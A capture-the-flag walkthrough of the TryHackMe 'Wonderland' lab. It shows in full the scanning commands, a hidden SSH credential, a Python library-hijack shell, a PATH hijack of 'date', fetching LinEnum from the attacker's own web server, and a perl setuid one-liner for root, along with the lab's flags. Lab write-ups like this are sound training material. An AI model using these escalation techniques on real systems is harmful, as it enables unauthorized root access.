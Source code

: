 # Wonderland



1. Enumerate with nmap
```
root@ip-10-10-15-9:~# sudo nmap -sS -A -script=vuln 10.10.149.16

Starting Nmap 7.60 ( https://nmap.org ) at 2022-01-05 04:23 GMT
Nmap scan report for ip-10-10-149-16.eu-west-1.compute.internal (10.10.149.16)
Host is up (0.00047s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /r/: Potentially interesting folder
|_  /img/: Potentially interesting folder
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
MAC Address: 02:49:6E:A7:5C:17 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.60%E=4%D=1/5%OT=22%CT=1%CU=40034%PV=Y%DS=1%DC=D%G=Y%M=02496E%TM
OS:=61D51F7D%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10A%TI=Z%CI=Z%TS=A)
OS:SEQ(SP=105%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M2301ST11NW7%O2=M230
OS:1ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=M2301ST11NW7%O6=M2301ST11)W
OS:IN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F
OS:507%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)
OS:T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%
OS:S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0
OS:%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.47 ms ip-10-10-149-16.eu-west-1.compute.internal (10.10.149.16)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 547.47 seconds
```

2. We see tht a web server is running on port 80, so run gobuster with the big wordlist
```
root@ip-10-10-15-9:~/Downloads/Wonderland# gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.10.149.16/
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.149.16/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2022/01/05 05:09:22 Starting gobuster
===============================================================
/img (Status: 301)
/poem (Status: 301)
/r (Status: 301)
===============================================================
2022/01/05 05:09:24 Finished
===============================================================
```

3. Let's visit the webpage. All it says is `Follow the White Rabbit`, and contains a picture of the white rabbit from the novel

4. Visit each of the routes found with gobuster and check the source code and the Network and Cookies tabs in Inspect Element. Nothing seems to be hidden in the source code, and nothing special is seen in Network or Cookies. Now take a look at the actual contents of the directories. `/poem` contains a poem called `The Jabberwocky`. A quick search reveals that it's a nonsense poem that was included in the novel `Through the Looking-Glass`. This doesn't seem to help us at the moment, so let's go to the next route. `/img` contains 3 images: `alice_door.jpg`, `alice_door.png`, and `white_rabbit_1.jpg`. Note: from the source code of the index page we see that `white_rabbit_1.jpg` was the picture used to show the white rabbit. Download all of these images and analyze the metadata with exiftool `exiftool <image>`. Nothing seems out of place. Now try using steghide `steghide extract -sf <image>` on them to see if there's any files hidden inside. The 2 `alice_door` images don't seem to have anything, but `white_rabbit_1.jpg` is not password protected and contains `hint.txt`, which contains the text `follow the r a b b i t`. This doesn't mean anything to us at the moment. Lastly, we can use stegsolve to try to analyze the pictures, but we find nothing. Moving on to `/r`, we find is `Keep Going. "Would you tell me, please, which way I ought to go from here?"`. This doesn't tell us much but from the it's probably not a coincidence that the route starts with an `r`, just like the work `rabbit`. Additionally, the hint told us to follow the `r a b b i t`. Could it be referring to the URL, and specifically the route `/r`? There can't be any spaces in URLs, so we can try using `/r_a_b_b_i_t`, but it doesn't work. We can also try using `/`. So if we try `/r/a`, we find that we're directed to another page. As we keep going through the letters in `rabbit`, `/r/a/b/b/i/t` we are presented with quotes from the novel. Make sure to view the source code and inspect element to see if there are any clues hidden. When we get to the `t`, we find that we're instructed to `Open the door and enter wonderland`. Looking through the source code for this page we find a hidden paragraph `<p style="display: none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail</p>` that look like some kind of username and password combination. We know from the nmap scan that ssh is open, and using `ssh alice@<ip address>` with the password successfuly logs us into the machine as alice
```
Open the door and enter wonderland

"Oh, you're sure to do that," said the Cat, "if you only walk long enough."

Alice felt that this could not be denied, so she tried another question. "What sort of people live about here?"

"In that direction,"" the Cat said, waving its right paw round, "lives a Hatter: and in that direction," waving the other paw, "lives a March Hare. Visit either you like: they're both mad."
```

5. Once we land in alice's home directory we find a `root.txt` and `walrus_and_the_carpenter.py`. Because we finally have access to the machine, we should be able to find user.txt, however we don't see it anywhere here. The hint says `Everything is upside down here.`. Maybe the contents of user.txt are in root.txt? Try it and we find that we don't have permissions to read root.txt. Maybe the user.txt is in the `/root` directory? If we try to print out the contents of `/root`, we get a permission denied error, but if we try to print user.txt - assuming it's in the `/root` directory - `cat /root/user.txt` we get `thm{"Curiouser and curiouser!"}`

6. Now we want to escalate privileges. We see that there's 4 folders in the `/home` directory: alice, hatter, rabbit, and tryhackme, but we can't access any other than alice. Let's use `sudo -l` with alice's password to see if alice has any special permissions. We find that alice can run this exact command `/usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py` as rabbit. Looking at the contents of `walrus_and_carpenter.py`, we see that it prints out random lines from a poem. The most important part of the program is the `import random`. What if we make the program import a file of our choosing instead of the module? Create a new file inside the same directory named `random.py` and insert `import pty; pty.spawn("/bin/bash")` into it, which will create a new shell for us as rabbit if it's run with rabbit's permissions. Since we can run the `/usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py` command as rabbit, let's do so with `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`, and we should now be logged in as rabbit
```
User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

7. Now we have access to rabbit's home directory, and we see that it has one file called `teaParty`. We can try using `sudo -l`, but we don't have rabbit's password so we can't view any special permissions. Run `file teaParty` and we find that it's an executable file, so run it and we get some output. If we print out the contents with `cat teaParty` we see that the date is being printed out dynamically using the date program `The Mad Hatter will be here soon./bin/echo -n 'Probably by ' && date --date='next hour' -RAsk very nicely, and I will give you some tea while you wait for himSegmentation fault (core dumped)`. Since the absolute path of the date command isn't being used to reference the program (unlike echo, which is being called with `/bin/echo`), we can change the PATH variable and write our own program called date, which will then execute code of our choosing. So let's append our current directory to the PATH with `export PATH=/home/rabbit:$PATH`. This appends our directory to the beginning of the PATH variable, so the first place bash will check for the date program is our directory. Now let's create a file named `date`, enter a shebang `#!/bin/bash` and use the same python code we used last time `python3 -c 'import pty; pty.spawn("/bin/bash")'`. Finally, make the date file executable with `chmod +x date`. You can now check if your date is detected in the PATH with `which date`. If this returns `/home/rabbit/date`, you've successfully changed the path. Now if we run `teaParty`, our date file will be run and it will create a new shell as the hatter
```
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Sat, 08 Jan 2022 21:46:21 +0000
Ask very nicely, and I will give you some tea while you wait for him
```

8. Navigate to hatter's directory and we see a password file. Cat it out and we find that hatter's password is `WhyIsARavenLikeAWritingDesk?`. Let's do some enumeration on this machine with LinEnum. First, clone LinEnum's repository onto your host machine with `git clone https://github.com/rebootuser/LinEnum.git`. Then open a python server on LinEnum's directory with `python3 -m http.server`. Now download the script onto the target machine with wget. Make it executable with `chmod +x LinEnum.sh` and run it. Look through the output and we see that `/usr/bin/perl` has the `CAP_SETUID` capability set. Using a command `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'` provided by [GTFOBin](https://gtfobins.github.io/gtfobins/perl/), we can open another shell as root. Now simply go back to alice's directory and print out root.txt to get `thm{Twinkle, twinkle, little bat! How I wonder what you're at!}`
```
[00;31m[+] Files with POSIX capabilities set:[00m
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

